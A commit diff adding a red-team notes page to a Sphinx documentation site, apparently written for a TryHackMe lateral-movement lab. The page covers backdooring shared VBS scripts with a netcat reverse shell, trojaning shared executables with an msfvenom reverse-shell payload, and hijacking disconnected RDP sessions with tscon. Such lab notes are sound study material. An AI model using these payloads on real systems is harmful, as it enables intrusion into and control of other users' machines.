

Before and after one commit to tymyrddin/red-ad, a Sphinx documentation site: the page built from source/docs/pivot/behaviour.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

```diff
--- a/source/docs/pivot/behaviour.md
+++ b/source/docs/pivot/behaviour.md
@@ -1 +1,65 @@
 # Abusing user behaviour
+
+## Writable Shares
+
+* Discover a globally writable share
+* Discovers credentials that allow access to a writable share
+
+As the share is enumerated, there are scripts or executable files on the server that may be run by several users.
+When a user runs the executable:
+
+* A copy of the script/executable is made to a temporary directory on the user's computer
+* The executable is run on the user's computer – not the server hosting the share
+
+This increases the attack surface for anyone with access to the share and executable files.
+
+### Backdooring .vbs Scripts
+
+If the shared resource is a VBS script, we can put a copy of nc64.exe on the same share and inject the following
+code in the shared script:
+
+    CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\FILE-SERVER-IP\share_name\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <IP address attack machine> 80", 0, True
+
+If a user runs this from the file share, the script will:
+
+* Copy nc64.exe from the file server to the user's temporary directory
+* Give a reverse shell by executing nc64.exe and connecting to the attacker's IP address on a specified port.
+
+### Backdooring .exe Files
+
+If the shared file is a Windows binary, say putty.exe, it can be downloaded from the share and be injected with a
+backdoor (msfvenom makes it easy):
+
+* Copy the binary from the file share to the attack machine
+* Use it as a template to create an imposter
+* Place the imposter on the file share
+* Start a listener and wait for it
+
+Create a malicious binary (noticeable by AV by the way):
+
+    msfvenom -a x64 --platform windows -x /tmp/filename.exe -k -p windows/x64/shell_reverse_tcp LHOST=<IP address attack machine> LPORT=80 -b '\x00' -f exe -o filename.exe
+
+## RDP Session hijacking
+
+When an administrator uses Remote Desktop to connect to a machine and closes the RDP client instead of logging off, the
+session will remain open on the server indefinitely. With SYSTEM privileges on Windows Server 2016 and earlier, you
+can take over any existing RDP session without requiring a password. On Windows Server 2019 and newer, the attacker
+must know the password used to create the RDP session.
+
+Logged in as the `Administrator` and running a shell as `NT AUTHORITY\SYSTEM`:
+
+    C:\> query user
+     USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
+    >administrator         rdp-tcp#6           2  Active          .  4/1/2022 4:09 AM
+     luke                                    3  Disc            .  4/6/2022 6:51 AM
+
+For a RDP session that was not cleanly logged off and is suspended, attach it to the existing session, for example:
+
+    tscon 3 /dest:rdp-tcp#6
+
+## Flag
+
+* Get a new set of credentials from http://distributor.za.tryhackme.com/creds_t2.
+* Connect to THMJMP2 via RDP
+* hijack `t1_toby.beck`'s RDP session on THMJMP2 to get your flag. Hijack a session marked as disconnected (Disc.)
+to avoid interfering with other users.
```
Also changed, not shown: source/docs/pivot/auth.md (+3 -3 lines), source/docs/pivot/portforward.md (+33 -0 lines).
